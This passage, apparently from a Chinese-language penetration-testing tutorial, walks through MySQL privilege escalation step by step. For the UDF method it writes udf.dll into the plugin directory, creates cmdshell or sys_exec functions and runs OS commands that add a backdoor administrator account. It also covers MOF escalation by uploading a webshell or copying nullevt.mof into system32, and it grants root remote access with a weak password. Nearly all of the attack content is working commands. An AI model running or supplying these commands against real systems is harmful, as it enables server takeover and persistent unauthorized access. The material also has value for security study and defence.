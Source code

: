 第四步，用数据库权限将udf.dll写入到MySQL的plugin目录下，这样才有系统权限

> ```mysql
> select load_file('c:\wwwroot\udf.dll') into dumpfile 'c:\...\mysql\plugin\udf.dll'
> ```
> 
> 这里用的plugin路径就是上面查出来的。

第五步，创建系统函数

> ```mysql
> create function cmdshell returns string soname 'udf.dll';
> # 删除函数
> drop function cmdshell;
> ```
> 
> 如果是Linux系统则创建system或sys_exec或sys_eval函数，哪个能成功用哪个就行
> 
> ```mysql
> create function sys_exec returns int soname 'udf.so';
> # 删除函数
> drop function sys_exec;
> ```

第六步，执行系统命令，如创建账户等

> ```mysql
> select cmdshell('net user abc 123 /add');
> select cmdshell('net localgroup administrators abc /add');
> ```
>
> 如果再Linux系统下，第一次执行需要加权限，之后都不需要。（这里导出到文件是因为前面创建时是返回int，没法回显其他信息，所以只能保存文件）
>
> ```mysql
> select sys_exec('ls -al >> /log && chmod 777 /log');
> select sys_exec('ls -al >> /log');
> ```

#### 4. mof提权

mof提权有一定的成功率，不一定百分百成功，得多试很多次。

- 方法一，上传大马进行提权

上传mof.php，输入相关信息，执行命令，提权。

- 方法二，上传mof文件，通过load_file执行文件复制到系统路径下进行提权

上传文件x.mof，使用select命令导出到正确位置：

```mysql
select load_file('C:/wmpub/nullevt.mof') into dumpfile 'C:/windows/system32/wbem/mof/nullevt.mof'
```


设置允许外部地址使用MySQL的root用户连接的SQL语句：

```mysql
Grant all privileges on *.* to 'root' @ '%' identified by 'root' with grant option;
```
